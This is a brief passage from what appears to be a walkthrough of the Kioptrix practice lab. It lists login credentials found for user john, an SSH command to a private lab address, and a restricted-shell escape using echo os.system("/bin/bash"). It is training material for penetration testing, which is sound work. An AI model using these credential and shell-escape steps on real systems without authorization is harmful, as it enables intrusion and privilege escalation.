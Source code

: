 We got creds for john  after login in   

Username =JOHN

Password=MyNameIsJohn 


![Alt text](/assets/img/kioptrix/panel.jpg)


### In the box 
PRIVILLAGE ESCALATION. 
 command `ssh -oHostKeyAlgorithms=+ssh-dss john@192.168.5.131`

![Alt text](/assets/img/kioptrix/ssh.jpg)

Bypassing the command restriction `echo os.system("/bin/bash")`   

Setting term variable `export TERM=xterm`

![Alt text](/assets/img/kioptrix/xterm.jpg)
